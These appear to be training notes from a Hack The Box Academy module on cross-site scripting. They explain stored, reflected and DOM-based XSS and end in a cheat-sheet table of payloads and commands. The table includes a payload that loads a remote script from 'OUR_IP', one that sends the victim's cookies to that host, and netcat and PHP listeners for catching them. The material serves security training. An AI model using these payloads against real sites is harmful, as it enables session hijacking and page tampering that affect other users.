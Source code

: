 ![](https://i.imgur.com/5B0y60V.png)

XSS vulnerabilities take advantage of a flaw in user input sanitization to "write" JavaScript code to the page and execute it on the client side, leading to several types of attacks.
XSS vulnerabilities are solely executed on the client-side and hence do not directly affect the back-end server. They can only affect the user executing the vulnerability. The direct impact of XSS vulnerabilities on the back-end server may be relatively low, but they are very commonly found in web applications, so this equates to a medium risk (`low impact + high probability = medium risk`), which we should always attempt to `reduce` risk by detecting, remediating, and proactively preventing these types of vulnerabilities.

![](https://i.imgur.com/8mmHl3Z.png)

## Types of XSS

There are three main types of XSS vulnerabilities:

|Type|Description|
|---|---|
|`Stored (Persistent) XSS`|The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)|
|`Reflected (Non-Persistent) XSS`|Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)|
|`DOM-based XSS`|Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)|

<span style="color:#00ff73">Stored XSS or Persistent XSS</span>. If our injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page. Furthermore, Stored XSS may not be easily removable, and the payload may need removing from the back-end database.


# Commands

| Code                                                                                          | Description                       |
| --------------------------------------------------------------------------------------------- | --------------------------------- |
| **XSS Payloads**                                                                              |                                   |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                 |
| `<plaintext>`                                                                                 | Basic XSS Payload                 |
| `<script>print()</script>`                                                                    | Basic XSS Payload                 |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload            |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color           |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image           |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title              |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body     |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element       |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script                |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us         |
| **Commands**                                                                                  |                                   |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                           | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80`                                                                            | Start `netcat` listener           |
| `sudo php -S 0.0.0.0:80`                                                                      | Start `PHP` server                |

# Questions & Answers